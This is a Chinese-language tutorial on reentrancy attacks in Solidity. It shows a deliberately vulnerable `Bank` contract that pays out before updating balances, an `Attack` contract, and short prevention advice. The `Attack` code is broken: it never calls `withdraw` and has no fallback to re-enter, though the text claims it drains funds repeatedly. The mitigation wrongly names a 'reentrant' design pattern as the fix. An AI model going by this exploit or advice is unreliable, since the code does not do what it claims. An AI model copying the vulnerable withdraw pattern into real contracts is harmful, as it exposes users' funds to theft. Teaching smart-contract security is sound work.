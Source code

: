 # 重新进入攻击

重新进入攻击是一种常见的智能合约漏洞，可以让攻击者绕过应用程序设计的限制，从而访问他们没有权限访问的代码。

在本示例中，我们将创建一个名为 `Bank` 的银行合约，允许用户存款、提款和查询余额。但是，该合同存在一个重大漏洞，允许攻击者通过多次调用 `withdraw` 函数来不断提取更多的资金。

```solidity
pragma solidity ^0.5.16;

contract Bank {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount);

        (bool success, ) = msg.sender.call.value(_amount)("");
        require(success);

        balances[msg.sender] -= _amount;
    }
}
```

在此示例中，我们定义了一个名为 `Bank` 的合约。该合同使用映射来跟踪每个地址的余额，并实现了两个函数： `deposit` 和 `withdraw`。

使用 `deposit` 函数，用户可以向他们的账户存款。使用 `withdraw` 函数，用户可以从他们的账户中提取指定金额的资金。

然而，`withdraw` 函数存在安全问题，因为它未能正确处理重入攻击。当攻击者调用此功能时，如果攻击者的合约在调用此函数时重新进入，那么攻击者可以再次访问该函数，并从受影响的账户中提取更多资金。

为了利用这个漏洞，攻击者需要编写一个恶意合约，它会在调用 `withdraw` 函数时重新进入，并不断调用 `withdraw` 函数，直到向攻击者的地址转移所有资金。

```solidity
pragma solidity ^0.5.16;

contract Attack {
    address payable public target;
    uint256 public amount;

    constructor(address payable _target) public payable {
        target = _target;
        amount = msg.value;
    }

    function attack() public {
        // 调用合同提款函数
        (bool success, ) = target.call.value(amount)("");
        require(success);

        // 重入合同继续调用提款函数
        target.call.value(amount)("");
    }
}
```

在此示例中，我们定义了一个名为 `Attack` 的恶意合同。该合同接受一个目标合同的地址，并通过构造函数将一定数量的以太币存储在该合同中。

使用 `attack` 函数，攻击者可以重复调用目标合同的 `withdraw` 函数，从而不断提取更多的资金。攻击者在每次调用该函数时都会调用自己的合同 `Attack`，因此可以无限制地调用受影响的银行合同。

为了防止这种攻击，我们可以使用锁定机制，确保在一个函数执行期间不会再次调用该函数。一种解决方案是使用 `bool` 变量来跟踪当前是否正在执行某个函数。另一种解决方案是使用可重入合约设计模式避免这个问题。

但是需要注意的是，在编写智能合约时，务必格外小心，并确保正确处理所有可能的攻击场景。